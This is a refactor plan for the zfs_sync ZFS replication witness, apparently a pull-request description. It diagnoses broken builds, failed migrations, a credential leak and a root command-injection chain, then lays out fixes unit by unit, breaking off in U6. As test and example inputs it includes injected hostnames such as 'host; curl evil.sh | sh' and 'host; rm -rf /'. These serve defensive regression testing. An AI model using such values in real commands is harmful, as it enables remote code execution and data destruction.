


# refactor: Rewrite the zfs_sync coordination core and harden for open-source release

## Summary

Replace the three tangled sync services (`sync_coordination.py`, `sync_validators.py`, `sync_queries.py` — 1,815 lines of duplicated, dead and contradictory logic) with a single coherent planner built on a pure policy module, keeping the existing data model, repositories, API surface and dashboard. zfs_sync remains an orchestrator that generates `zfs send | ssh … zfs receive` instructions, but gains the two things it has never had: correct per-`(dataset, target)` planning for hub-and-spoke fan-out, and a closed execution-feedback loop so the witness learns whether its instructions worked. Before any of that, three things have to be true that currently are not: `main` has to build, the two critical security holes have to close, and the database schema has to be managed by something that actually runs.

---

## Problem Frame

`zfs_sync` is a central "witness" for ZFS snapshot state across a fleet. ZFS hosts POST their snapshot inventories; the witness compares them, decides who is behind, and returns replication instructions the hosts execute. The concept is sound, and the scaffolding around it — models, repositories, FastAPI routes, dashboard, Docker, CI — is reasonable.

The coordination core is not, and investigation found the failure is not localised. The system's headline promise, "tell me which datasets need syncing and how", is broken end to end:

- **`main` does not build.** Commit `a857c94` committed unresolved merge-conflict markers into `zfs_sync/__init__.py`, `pyproject.toml`, `config/zfs_sync.yaml` and `config/zfs_sync.yaml.example`. `import zfs_sync` raises `SyntaxError`; `pytest` cannot read its own config; `get_settings()` dies parsing the YAML it loads first. CI, the Docker health check and the whole test suite are red.
- **Migrations have never worked.** There is no `alembic.ini` and no `alembic/env.py`, so Alembic cannot run at all. Two revisions both claim to follow `001` with incompatible id schemes, one naming a `down_revision` that does not exist. Schema is really managed by `Base.metadata.create_all()`, which never alters existing tables — so the committed database still carries the pre-`003` shape, with `sync_states.snapshot_id NOT NULL` and **no `directional` or `hub_system_id` columns on `sync_groups`**. On that schema `detect_sync_mismatches` returns `[]` for every group, because the first thing it checks is `sync_group.directional`.
- **The service leaks its own credentials.** `SystemResponse` declares `api_key` with `from_attributes=True`, so Pydantic reads it off the ORM row regardless of the comment claiming it is returned only on creation. `GET /systems` and `GET /systems/{id}` are unauthenticated and dump every key in the fleet.
- **An unauthenticated write becomes root RCE.** Every interpolated value in `SSHCommandGenerator` is `shlex.quote`d except the SSH target, which is raw by explicit design decision. `ssh_hostname` is settable through an unauthenticated `PUT /systems/{id}`, and the resulting string is executed by `docs/templates/sync_executor.sh`.
- **The scheduler is a no-op.** `_process_sync_group` calls `generate_dataset_sync_instructions()` and discards the result, while its docstring claims it updates sync states. Nothing in the automatic path writes `sync_states`; the table has zero rows in the shipped database, and it is what feeds the dashboard and `/sync/groups/{id}/status`.
- **The executor client can never sync.** `sync_executor.sh` parses `.actions[]` from a response whose only payload key is `datasets`, and passes `include_commands=true`, a parameter no endpoint accepts. It always reports "No sync actions required" and exits 0.
- **Hub-and-spoke silently loses targets.** Instruction consolidation is keyed on `dataset` alone, so when one hub dataset is behind on two spokes, the second spoke's SSH host and pool are discarded.
- **Documentation describes code that was never wired in.** `docs/MISMATCH_FILTERING_ANALYSIS.md` states the `now − 72h` policy was implemented via `get_latest_allowed_snapshot_before_now()`. That function exists and nothing imports it; the live path still uses the per-dataset filter the same document identifies as the root cause.
- **Failures are logged, not returned.** Every suppression path writes to a logger. A healthy fleet and a completely broken one both return `{"datasets": [], "dataset_count": 0}`.

Underneath sits the structural problem the user named: complexity that only appears across multiple systems. Roughly 1,500 lines — about 27% of the Python — is dead or duplicated. Two parallel query layers exist, and the one with unit tests is not the one that runs. Entities are modelled three times (`zfs_sync/models/`, `database/models.py`, `api/schemas/`) and one of those layers has no production consumer at all. An unreachable bidirectional branch sits inside the planner. Two definitions of "in sync" coexist in one file. The result is a codebase where the test suite is green and the product does not work — and the tests cannot catch it, because `_running_under_pytest()` short-circuits startup so configuration validation, `init_db()` and the scheduler are never exercised by any test.

Separately, releasing this as open source in partnership with znapzend is blocked today: there is no `LICENSE` file (so the repository is all-rights-reserved despite `pyproject.toml` declaring MIT), `log.txt` ships 827 KB of production logs containing internal hostnames and a root shell prompt, and the midnight-snapshot convention (`name.endswith("-000000")`) is a Zengenti-specific naming rule welded into core logic that would silently produce zero sync detection at any other site.

---

## Requirements

- R1. `main` builds, imports, installs, and runs its test suite green before any other work lands.
- R2. No unauthenticated request can read credentials or influence a string that will be executed as root.
- R3. Database schema is managed by a migration tool that actually runs, with a single resolvable revision head.
- R4. A single sync core replaces `sync_coordination.py`, `sync_validators.py` and `sync_queries.py`, with one definition of "out of sync" and no duplicate query layer.
- R5. Sync planning is correct per `(sync_group, dataset, source, target)`. A hub dataset behind on N targets produces N independent, correct instructions.
- R6. The send-window policy is implemented once, explicitly, configurably, and matches the documented intent: the ending snapshot is the latest source snapshot at least 72 hours old; the starting snapshot is the latest snapshot common to both and strictly older than the end.
- R7. Every decision that suppresses an instruction is returned in the API response as structured data, not only logged.
- R8. Generated commands are correct for the target's real SSH identity and cannot be made to execute anything other than the intended `zfs` operation.
- R9. Clients report execution outcomes back to the witness, and those outcomes drive `sync_states`, the dashboard and the status summary.
- R10. The scheduler performs the work its docstring claims, without blocking the API event loop.
- R11. Snapshot ingestion is authenticated, idempotent, normalised at the boundary, and reconciles only the scope the client reported.
- R12. Every endpoint that reads or writes fleet data requires authentication; API keys are stored hashed.
- R13. The shipped client scripts match the real API contract and do not `eval` server-supplied strings.
- R14. Snapshot naming conventions are configuration, not hardcoded logic, so non-Zengenti sites and znapzend hosts work.
- R15. The repository is publishable: licensed, free of production logs and internal identifiers, with documentation that matches the code.
- R16. Tests exercise the startup, configuration and scheduler paths that `_running_under_pytest()` currently hides.

---

## Scope Boundaries

- Not changing the witness pattern itself — zfs_sync continues to observe and instruct, never to run `zfs` or `ssh` directly.
- Not replacing FastAPI, SQLAlchemy, the repository layer, the Pydantic schemas, or the dashboard frontend framework.
- Not migrating the database engine; SQLite stays the development default and PostgreSQL the production option.
- Not building a znapzend replacement. Snapshot creation and retention remain znapzend's job where it is deployed.
- Not adding multi-tenancy, RBAC or an admin role model. Authentication is per-system API key; authorization stays "a system may act for itself".
- Not rewriting the dashboard JavaScript beyond what the changed response shapes and the broken asset paths require.
- Not migrating `database/models.py` to SQLAlchemy 2.0 `Mapped[]` / `mapped_column()`, despite the ~30 `# type: ignore` comments it would remove.

### Deferred to Follow-Up Work

- Prometheus/OpenMetrics export and alerting: follow-up iteration, once R9 gives it real data to export.
- Making zfs_sync able to *drive* znapzend (writing `org.znapzend:*` dataset properties): separate spike once read-only interop is proven.
- Implementing or removing Server-Sent Events: `broadcast_event` is never called from anywhere, so the "real-time dashboard" does not exist. Decide its fate separately from this plan.
- Framework deprecation cleanup (FastAPI/SQLAlchemy/Pydantic warnings) beyond what this work touches.
- Externalising `PROJECT_SETUP_GUIDE.md`, `GITHUB_ACTIONS_GUIDE.md` and `GITHUB_ACTIONS_PROMPTS.md` (2,730 lines of generic, non-ZFS material) into a separate template repository.

---

## Context & Research

### Relevant Code and Patterns

- `zfs_sync/services/sync_coordination.py` — 1,114 lines. `detect_sync_mismatches`, `determine_sync_actions`, `get_sync_instructions`, `generate_dataset_sync_instructions`, `analyze_sync_group` plus private query helpers. The rewrite target. Lines 271–341 are an unreachable bidirectional branch, since `detect_sync_mismatches` returns early unless the group is directional.
- `zfs_sync/services/sync_validators.py` — 380 lines; only `is_midnight_snapshot` and `validate_snapshot_gap` are imported by production code. The entire `is_snapshot_out_of_sync_by_*` family, `get_latest_allowed_snapshot_before_now` and `validate_snapshot_exists` are referenced only from tests.
- `zfs_sync/services/sync_queries.py` — 321 lines; only `get_datasets_for_systems` has a production caller. Four functions have zero callers; three were re-implemented as private methods on `SyncCoordinationService` and abandoned here.
- `zfs_sync/models/` — `System`, `Snapshot`, `SyncGroup`, `SyncState` Pydantic classes with no importer outside `models/__init__.py` and the stray root `test_setup.py`. Only the `SyncStatus` enum is used.
- `zfs_sync/services/ssh_command_generator.py` — two parallel command builders: a pull-shaped pair (`generate_zfs_send_command` / `generate_zfs_receive_command`, unused by the app) and the push-shaped pair actually used, which hardcodes `ssh {hostname}` and drops `ssh_user` / `ssh_port`.
- `zfs_sync/api/schemas/system.py:53-62` — `SystemResponse` with `api_key` and `from_attributes=True`; the source of the credential leak.
- `zfs_sync/database/models.py` — `SnapshotModel.size`/`referenced`/`used` are `Integer` (4-byte on PostgreSQL, overflows above ~2.1 GB). No unique constraint on `(system_id, pool, dataset, name)` or on `SyncStateModel`'s natural key.
- `zfs_sync/api/routes/snapshots.py` — batch ingest calls `repo.create(...)` per row with no upsert; reconciliation calls `delete_snapshots_not_in_set(system_id, …)` scoped to the whole system; `/snapshots/compare-dataset` is registered twice and the pool-agnostic handler is unreachable.
- `zfs_sync/api/middleware/auth.py` — `get_current_system` is sound and is the pattern to extend. The package has **no `__init__.py`**, so `[tool.setuptools.packages.find]` excludes it from any built wheel.
- `zfs_sync/api/app.py:211` — `static_dir` resolves to the repo-root `static/`, which `app.py` itself creates empty, so the `/static` mount is skipped and all six dashboard assets 404.
- `zfs_sync/config/validation.py:188` — `validate_log_directory()` checks `Path("logs")` relative to CWD, which has no relationship to `settings.log_file`.
- `zfs_sync/services/conflict_resolution.py` — the only production caller of `update_sync_state`, and the model for how the planner should record state.
- `tests/conftest.py` — module-level shared temp SQLite file (order-dependent, not parallel-safe), `TestClient`, model-registration guard. No authenticated-client or API-key fixture.
- `docs/templates/zfs_sync_report.sh` — uses the correct `datasets[]` contract and is the reference for what clients consume; `sync_executor.sh` is the broken one.

### Institutional Learnings

`docs/solutions/` does not exist, so there are no captured institutional learnings. The two in-repo post-mortems (`docs/SYNC_MISMATCH_BUG_ANALYSIS.md`, `docs/MISMATCH_FILTERING_ANALYSIS.md`) serve that role. Their analysis is sound and their L1S4DAT1 worked example is the best acceptance case available — but their "Files Modified" sections describe fixes that were never wired into the running code, and both contain live UUIDs, real hostnames and a full `ssh hqs7-san` command.

`.github/agent-instructions.md` is the only agent-facing doc and contains eight factual claims that are false against the code, including "API keys are stored hashed in database", "Structured logging with JSON output", and "SQLAlchemy 2.0 with async support". An agent acting on it would make things worse.

### External References

- znapzend stores its plan in ZFS dataset user properties under `org.znapzend:*` and creates snapshots on its own schedule, named `%Y-%m-%d-%H%M%S`. Compatible in shape with the existing convention, but **not midnight-only** — so the hardcoded `-000000` check would ignore nearly all of them.
- `zfs send -I base end` sends every intermediate snapshot and requires `base` to still exist on both sides. `zfs receive -s` enables resumable receives; `-F` forces a destination rollback. Combining a resumable receive with a diverged destination is a runtime failure the witness currently cannot observe.

---

## Key Technical Decisions

- **Rewrite rather than patch the sync core.** The bugs are not independent; they stem from shared mutable state (`self.diagnostics`), dict-shaped domain objects crossing four layers, and duplicate implementations. Patching preserves the structure that produced them. The data model and API surface are sound and are retained, which bounds the rewrite.
- **Separate a pure policy module from a DB-facing planner.** All time-window, naming and eligibility rules become pure functions over `(name, timestamp)` pairs with no session, repository or clock dependency. This is the direct antidote to the current situation where the tested functions are not the executed ones.
- **Key everything on `(sync_group_id, dataset, source_system_id, target_system_id)`.** The single change that fixes R5. Dataset-keyed consolidation is what silently drops targets today.
- **Typed domain objects, not dicts.** The planner returns dataclasses. The current `Dict[str, Any]` flow is why `hub_latest_timestamp` can be silently absent and why the `actions[]`/`datasets[]` contract drift went unnoticed for so long.
- **Decisions are first-class outputs.** The planner emits a `SyncDecision` for every pair it considered, including declined ones, each with a machine-readable reason code. Instructions are the subset with `action == "sync"`. This satisfies R7 by construction rather than by remembering to append to a diagnostics list.
- **Normalise `pool` / `dataset` / `snapshot` once, at the ingest boundary.** Production data contains `hqs10p1/hqs10p1/L1S6DAT2` — the dataset arriving already pool-prefixed while `pool` is also set. Seven `if "/" in dataset:` heuristics scattered through the command generator exist to paper over this. Fixing it at ingest deletes the whole class.
- **Snapshot naming becomes configuration.** `is_midnight_snapshot` hardcodes a Zengenti convention. It becomes a configurable pattern — required for both open-sourcing and znapzend interop.
- **Repair Alembic rather than formalising `create_all()`.** Two migrations already exist that the live database has never received; `docs/fix_sync_states_schema.sql` is a manual `DROP TABLE` workaround adopted instead. A backup coordinator needs reversible, auditable schema change.
- **Hash API keys and stop writing on every request.** Plaintext storage plus a `last_seen` UPDATE inside `validate_api_key` is both a security problem and write amplification.
- **Replace `_running_under_pytest()` with a `create_app()` factory.** Branching on the test environment inside production startup is why the scheduler, config validation and `init_db` have no coverage — which is exactly where the worst bugs live.
- **Move the scheduler's work off the event loop.** It runs synchronous SQLAlchemy inside an `async` task; with fleet-scale datasets it stalls the single-worker API.
- **Treat znapzend as a peer, not a dependency.** zfs_sync observes what znapzend produces and must not assume it owns snapshot naming or lifetime. Interop is validated read-only here; driving znapzend is deferred.

---

## Open Questions

### Resolved During Planning

- *Should zfs_sync stop generating commands and defer execution to znapzend?* No — confirmed by the user. zfs_sync keeps orchestrating; the command path is fixed and given a feedback loop, and znapzend is a partner for snapshot creation and retention.
- *Is multi-target hub-and-spoke real?* Yes — confirmed. Per-target correctness is a hard requirement, not a latent concern.
- *Patch or rewrite?* Rewrite the sync core; keep models, repositories, API shape and dashboard.
- *Is the 72-hour rule still wanted?* Yes. The documented `now − 72h` policy is the intended behaviour and is implemented properly here.
- *Where should suppression reasons surface?* In the API response for every considered pair, not behind an `include_diagnostics` flag.
- *Keep the bidirectional sync path?* No — it is unreachable today and hub-and-spoke is the confirmed model. It is deleted rather than carried forward.

### Deferred to Implementation

- The full reason-code vocabulary for `SyncDecision` — knowable only once every branch of the old planner has been accounted for during U9/U10.
- Whether `SyncStateModel` needs a `target_system_id` column or `system_id` can continue to mean "the target". Depends on what the dashboard queries need in U13.
- Whether the batch reconciliation scope key is `(pool, dataset)` or `dataset` alone, given the same dataset name appears on different pools across systems. Requires inspecting real client payloads in U6.
- Whether the API-key hash migration can hash in place or requires a fleet re-registration window. Decided in U7 against the live deployment.
- Whether `log.txt` warrants a full `git filter-repo` history rewrite before the repository goes public, or whether untracking it forward is acceptable. A judgement call for the repository owner in U3.
- Whether znapzend's naming can be expressed in the same configurable pattern as the legacy convention, or needs a distinct parser. Determined in U15 against a real znapzend host.

---

## High-Level Technical Design

> *This illustrates the intended approach and is directional guidance for review, not implementation specification. The implementing agent should treat it as context, not code to reproduce.*

The core becomes a three-stage pipeline with one direction of data flow and no shared mutable state. The policy stage is pure and clock-injected; the planner is the only stage that touches the database; the renderer is the only stage that builds command strings.



The decision object is what makes suppression visible. Every considered pair yields one, whether or not it produces an instruction:

```
SyncDecision:
  dataset, source_system_id, target_system_id, sync_group_id
  action:  sync | skip
  reason:  in_sync_within_window
         | no_eligible_ending_snapshot     # nothing older than now-72h
         | no_common_base                  # full send required
         | base_equals_end                 # nothing to send
         | base_newer_than_end             # would emit a reversed send
         | target_diverged                 # target holds snapshots source lacks
         | missing_ssh_identity
         | source_snapshot_unavailable
  evidence: source_latest, target_latest, chosen_base, chosen_end, hours_behind
  instruction: <present only when action == sync>
```

The policy module holds the whole time-window rule in one place, over plain `(name, timestamp)` pairs, so it is testable without a database or a real clock:

```
choose_send_window(source_snaps, target_snaps, now, min_age_hours, min_gap_hours):
    end  = latest source snapshot with timestamp <= now - min_age_hours
    base = latest snapshot present on BOTH source and target, with timestamp < end
    reject when end is None            -> no_eligible_ending_snapshot
    reject when base is None           -> no_common_base (full send)
    reject when base == end            -> base_equals_end
    reject when base > end             -> base_newer_than_end
    reject when (end - base) < min_gap -> in_sync_within_window
    return (base, end)
```

---

## Implementation Units

### U1. Restore a buildable, installable `main`

**Goal:** Remove the committed merge-conflict markers and the packaging defects, so the project imports, builds, installs and can be tested. Nothing else in this plan is verifiable until this lands.

**Requirements:** R1

**Dependencies:** None — this blocks every other unit.

**Files:**
- Modify: `zfs_sync/__init__.py`, `pyproject.toml`, `config/zfs_sync.yaml`, `config/zfs_sync.yaml.example`
- Create: `zfs_sync/api/middleware/__init__.py`
- Modify: `.pre-commit-config.yaml`, `.github/workflows/ci.yml`

**Approach:**
- Resolve all four conflicts in favour of `0.2.0`, which is what the release tooling expects, and make the version consistent across every file that states it.
- Add the missing `zfs_sync/api/middleware/__init__.py`. `[tool.setuptools.packages.find]` is not `find_namespace`, so the auth middleware is currently excluded from any built wheel; it works today only because the Dockerfile copies the whole tree.
- Correct `pyproject.toml`'s `dependencies`, which omits `fastapi`, `uvicorn`, `sqlalchemy`, `alembic` and `psycopg2` — a `pip install zfs-sync` today produces a non-functional package. `requirements.txt` is the real manifest and the two must agree.
- Fix the CI release-version regex, which matches the *first* `__version__` and would have published `v0.1.80` after the 0.2.0 bump.
- Fix `.pre-commit-config.yaml`, which hardcodes `.venv/bin/python` and is therefore broken on Windows — the primary development machine.
- Add a conflict-marker check to both pre-commit and CI so this class of breakage cannot recur silently, and add a `pip install -e .` step so a broken `pyproject.toml` fails CI.

**Execution note:** Land as its own commit, first and alone, so the restoration of a green baseline is bisectable.

**Test scenarios:**
- Happy path: `python -c "import zfs_sync; print(zfs_sync.__version__)"` prints `0.2.0`.
- Happy path: `pytest` collects and runs without import or config errors.
- Happy path: `pip install -e .` succeeds, and `python -c "import zfs_sync.api.middleware.auth"` works from an installed wheel, not just the source tree.
- Happy path: `config/zfs_sync.yaml` parses via `Settings.from_file`.
- Edge case: a staged file containing `<<<<<<< HEAD` is rejected by pre-commit and by CI.
- Edge case: the release-version extraction returns `0.2.0`, not the first match in a multi-version file.
- Edge case: pre-commit hooks run on Windows without a hardcoded POSIX interpreter path.

**Verification:** CI green on `main` across the full Python matrix; no tracked file contains conflict markers; a built wheel contains `zfs_sync.api.middleware`.

---

### U2. Close the credential leak and the command-injection chain

**Goal:** Fix the two defects that make the service unsafe to run, let alone publish. These are separated from the broader auth work in U7 because they are exploitable today and should not wait behind a migration.

**Requirements:** R2, R8

**Dependencies:** U1

**Files:**
- Modify: `zfs_sync/api/schemas/system.py`
- Modify: `zfs_sync/api/routes/systems.py`
- Modify: `zfs_sync/services/ssh_command_generator.py`
- Modify: `docker-compose.prod.yml`
- Test: `tests/integration/test_api/test_systems.py`
- Test: `tests/unit/test_services/test_ssh_command_generator.py`

**Approach:**
- Remove `api_key` from `SystemResponse`. Because `from_attributes=True` populates it straight from the ORM row, the field's "only returned on creation" comment is not enforced by anything — `GET /systems` returns every key in the fleet, unauthenticated. Introduce a distinct creation-response schema that carries the key exactly once.
- Escape the SSH target. `ssh_command_generator.py:194` and `:257` interpolate `target_ssh_hostname` raw, with a comment stating this is deliberate. Combined with the unauthenticated `PUT /systems/{id}`, an `ssh_hostname` of `host; curl evil.sh | sh` reaches a root shell via `sync_executor.sh`. Quote it, and additionally validate `ssh_hostname` against a hostname/IP pattern at the schema layer — defence in depth, since the value is destined for a root shell either way.
- Replace the `POSTGRES_PASSWORD:-changeme` defaults in `docker-compose.prod.yml` with required variables that fail loudly when unset.

**Execution note:** Write the exploit as a failing test first for both defects — a `GET /systems` assertion that no key material appears, and a renderer assertion that a metacharacter-bearing hostname cannot terminate the command. These are the regression tests that matter most in the whole plan.

**Test scenarios:**
- Error path: `GET /systems` and `GET /systems/{id}` responses contain no `api_key` field and no key material anywhere in the body.
- Happy path: `POST /systems` still returns the generated key exactly once, via the creation schema.
- Error path: an `ssh_hostname` of `host; rm -rf /` is either rejected at the schema layer or rendered such that the injected text cannot execute.
- Edge case: legitimate values — bare hostname, FQDN, IPv4, IPv6 literal, and an SSH config alias — all still render correctly.
- Edge case: `docker compose -f docker-compose.prod.yml config` fails when `POSTGRES_PASSWORD` is unset rather than silently using `changeme`.

**Verification:** No unauthenticated response exposes key material; no rendered command can be made to execute anything but the intended `zfs` operation.

---

### U3. Licensing and repository hygiene

**Goal:** Make the repository legally and practically publishable — licensed, free of production logs and internal identifiers, and free of the stray scripts that would run against a live database if collected.

**Requirements:** R15

**Dependencies:** U1

**Files:**
- Create: `LICENSE`
- Modify: `.gitignore`, `.bandit`, `pyproject.toml`
- Delete: `log.txt`, `test_phase2.py`, `test_phase3_snapshots.py`, `test_setup.py`, `scripts/test_snapshot_comparison.py`, `.docker_build_complete`
- Untrack: `config/zfs_sync.yaml`
- Modify: `ARCHITECTURE.md`, `docs/SETUP_GUIDE.md`, `docs/MISMATCH_FILTERING_ANALYSIS.md`, `docs/SYNC_MISMATCH_BUG_ANALYSIS.md`
- Modify: `tests/unit/test_services/test_sync_mismatch_detection.py`, `tests/unit/test_services/test_sync_coordination.py`, `tests/integration/test_api/test_sync.py`

**Approach:**
- Add the MIT `LICENSE` that `pyproject.toml` already declares but does not ship. Without it the repository is all-rights-reserved. Settle whether copyright sits with Zengenti Ltd. or individual contributors before the first external contribution.
- Remove `log.txt` — 827 KB of production logs containing ~2,961 internal hostname references, live system and sync-group UUIDs, the internal dataset taxonomy, and a pasted root shell prompt disclosing a server name and privileged username. Whether to rewrite history with `git filter-repo` or simply untrack forward is the owner's call; either way it must not be in the published tree.
- Untrack `config/zfs_sync.yaml` (keep only `.example`), so operator config can never again be clobbered by a merge.
- Delete the three root-level `test_*.py` smoke scripts and `scripts/test_snapshot_comparison.py`. They are `print`-based manual scripts, not tests; they are excluded today only by `testpaths`, which was not in force while `pyproject.toml` was unparseable. Collected, they would run `init_db()` and write fixtures against the real configured database. `test_setup.py` is also the last consumer of the dead `zfs_sync/models/` layer.
- Replace internal identifiers (`hqs7`, `hqs10`, `hqsNpN` pools, `L1S…`/`M1S…` dataset names, `ssh hqs7-san`) with neutral fixtures. Keep the *shape* of the scenarios — they are the regression cases that matter.
- Update `.bandit`, which skips `B601` on the rationale "We use subprocess for ZFS commands intentionally" — the service never calls subprocess, so the skip suppresses a real category for no reason. Add a `select` list to `[tool.ruff]`, which currently runs bare defaults and therefore catches none of the bug classes (`B`, `S`, `SIM`, `G`) present in this codebase.

**Test scenarios:**
- Happy path: `git ls-files` returns no `log.txt`, no `config/zfs_sync.yaml`, no build markers, no root-level `test_*.py`.
- Happy path: `pytest` passes after fixture renaming — the renamed scenarios assert identical behaviour.
- Edge case: `git grep -i` for each retired internal identifier returns no hits in tracked files.
- Edge case: `pytest` from the repository root collects nothing outside `tests/`.
- Edge case: ruff with the new `select` list runs clean, or its findings are triaged rather than suppressed.

**Verification:** A fresh clone is licensed, contains no production data or internal identifiers, and cannot be made to write to a live database by running the test suite.

---

### U4. Repair Alembic and reconcile the production schema

**Goal:** Make schema change real. Alembic cannot currently run at all, and the live database is on a schema that predates the features the code depends on.

**Requirements:** R3

**Dependencies:** U1

**Files:**
- Create: `alembic.ini`, `alembic/env.py`, `alembic/script.py.mako`
- Modify: `alembic/versions/002_add_directional_sync_fields.py`
- Modify: `zfs_sync/database/engine.py`
- Modify: `.github/workflows/ci.yml`
- Create: `docs/MIGRATION_RECOVERY.md`
- Test: `tests/integration/test_migrations.py`

**Approach:**
- Add the missing `alembic.ini` and `alembic/env.py` wired to `Base.metadata` and `settings.database_url`. Without them Alembic is inert, which is why `docs/fix_sync_states_schema.sql` (a manual `DROP TABLE sync_states`) exists as the adopted workaround.
- Resolve the double-`002` branch. Two revisions claim to follow `001` with incompatible id schemes, and `002_add_directional_sync_fields.py` names a `down_revision` (`001_add_ssh_fields_to_systems`) that does not exist — `001`'s actual id is `"001"`. Linearise into a single resolvable chain.
- Stop `init_db()` silently owning schema. `Base.metadata.create_all()` never alters existing tables, which is precisely how the live database ended up without `sync_groups.directional` and `sync_groups.hub_system_id` while the code branches on them. Creation stays available for a fresh test database; migration becomes the path for anything with data.
- Write a recovery procedure for databases already in the drifted state, stamping them at the correct revision and applying the missing changes — the shipped database is in exactly this condition, and other deployments may be too.
- Add a CI step that asserts `alembic heads` returns exactly one head and that `upgrade head` then `downgrade base` round-trips. The absence of this check is why the branch went unnoticed.

**Execution note:** This unit must be rehearsed against a copy of a real deployment's database, not just a fresh one. The interesting failures are all in the drifted-schema case.

**Test scenarios:**
- Happy path: `alembic heads` returns exactly one revision.
- Happy path: `alembic upgrade head` on an empty database produces a schema matching `Base.metadata`.
- Happy path: `upgrade head` → `downgrade base` → `upgrade head` round-trips cleanly on SQLite.
- Edge case: a database at the pre-`003` shape (with `sync_states.snapshot_id NOT NULL` and no `directional`/`hub_system_id`) is recovered by the documented procedure and ends at head.
- Edge case: a database already at head is a no-op.
- Error path: CI fails if a new migration introduces a second head.
- Integration: after recovery, `detect_sync_mismatches` on a directional group no longer returns `[]` because of missing columns.

**Verification:** Migrations run, reverse, and have a single head; a drifted production database can be recovered by a documented procedure.

---

### U5. Schema corrections and the execution-history table

**Goal:** Fix the model defects that will corrupt production data, and add the table the feedback loop needs.

**Requirements:** R9, R11

**Dependencies:** U4

**Files:**
- Modify: `zfs_sync/database/models.py`
- Create: `alembic/versions/004_sizes_constraints_and_sync_runs.py`
- Create: `zfs_sync/database/repositories/sync_run_repository.py`
- Modify: `zfs_sync/database/repositories/__init__.py`, `zfs_sync/database/repositories/base_repository.py`
- Test: `tests/unit/test_repositories/test_sync_run_repository.py`

**Approach:**
- Change `SnapshotModel.size`, `.referenced` and `.used` from `Integer` to `BigInteger`. On PostgreSQL these are 4-byte columns that overflow above ~2.1 GB — an ordinary snapshot size.
- Add a unique constraint on `(system_id, pool, dataset, name)` to back U6's upsert, and on `SyncStateModel`'s `(sync_group_id, dataset, system_id)` to close the get-or-create race in `update_sync_state`. The migration must deduplicate existing rows first, in batch mode for SQLite.
- Add `sync_runs`: `(id, sync_group_id, dataset, source_system_id, target_system_id, starting_snapshot, ending_snapshot, status, started_at, finished_at, bytes_transferred, error_message, reported_by_system_id)`. Append-only history, deliberately distinct from the `sync_states` current-status projection.
- Fix `BaseRepository.create`, which maps *every* `IntegrityError` to `ValueError("constraint violation")`, losing the foreign-key-versus-unique distinction. This is why creating a sync group with a bogus `system_id` returns 500 instead of 400.

**Patterns to follow:** `alembic/versions/003_change_sync_states_to_per_dataset.py` for style; `zfs_sync/database/repositories/base_repository.py` for repository shape.

**Test scenarios:**
- Happy path: a snapshot with `size = 5_000_000_000` round-trips intact on SQLite and PostgreSQL.
- Happy path: `SyncRunRepository` persists a run and lists runs for a `(dataset, target)` pair newest-first.
- Edge case: a database containing duplicate `(system_id, pool, dataset, name)` rows is deduplicated by the migration rather than failing the constraint.
- Error path: a second `sync_states` row with an identical natural key raises an integrity error.
- Error path: a foreign-key violation and a unique violation produce distinguishable errors, so routes can map them to 400 and 409 respectively.

**Verification:** Migration applies and reverses; constraints hold; large sizes survive PostgreSQL; constraint failures are distinguishable.

---

### U6. Ingest normalisation, idempotency, and scoped reconciliation

**Goal:** Fix the ingestion path everything else depends on: stop unbounded row growth, stop partial reports destroying unrelated records, settle the pool/dataset ambiguity at the boundary, and return partial failures to the caller.

**Requirements:** R11, R7

**Dependencies:** U5

**Files:**
- Modify: `zfs_sync/api/routes/snapshots.py`
- Modify: `zfs_sync/database/repositories/snapshot_repository.py`
- Modify: `zfs_sync/api/schemas/snapshot.py`
- Create: `zfs_sync/services/ingest_normalization.py`
- Test: `tests/integration/test_api/test_snapshots.py`
- Test: `tests/unit/test_services/test_ingest_normalization.py`

**Approach:**
- Normalise `pool`, `dataset` and snapshot name once, here. Production data contains `dataset = "hqs10p1/L1S6DAT2"` with `pool = "hqs10p1"` already set, producing stored paths like `hqs10p1/hqs10p1/L1S6DAT2`. Establish one canonical form and enforce it at the boundary; this is what allows the seven `if "/" in dataset:` heuristics to be deleted in U11.
- Replace per-row `create` with an upsert on the natural key, so repeated full-inventory reports are idempotent. Today every polling cycle multiplies the row count, which poisons `max(…, key=timestamp)` tie-breaking and every incremental-base calculation.
